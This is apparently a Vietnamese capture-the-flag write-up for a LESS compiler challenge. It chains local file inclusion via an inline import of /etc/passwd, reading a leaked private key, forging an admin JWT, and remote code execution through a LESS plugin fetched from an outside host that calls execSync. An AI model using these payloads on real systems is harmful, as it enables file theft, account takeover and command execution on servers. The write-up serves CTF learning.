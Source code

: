 # research3

## Ý tưởng 

Less compiler -> LFI -> đọc privatekey -> gen lại jwt token để lên admin -> rce đọc flag

## Solve

Challenge sẽ là công cụ LESS Decompiler

Đăng kí tài khoản user thường

User thường có thể sử dụng `import (inline) "/etc/passwd";` để LFI

![](https://i.imgur.com/pADpE7h.png)

Đọc các file của server

Phân tích file `src/index.js`

![](https://i.imgur.com/fSHA4Vb.png)

Để sử dụng `@plugin` thì ta sẽ phải truy cập được vào tài khoản admin

File `private.key` để lộ và ta có thể đọc được lợi dụng lỗ hổng để gen lại token jwt cho username

Khi lên được admin ta có thể chèn được plugin và thực hiện rce

less.js

```js
// less.js
functions.add('cmd', val => {
  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
});
```

payload:

```js
@plugin "https://static.hypnguyen.com/less";
body {
    color: cmd('cat /flag*');
}
```

Thang điểm: 300/500
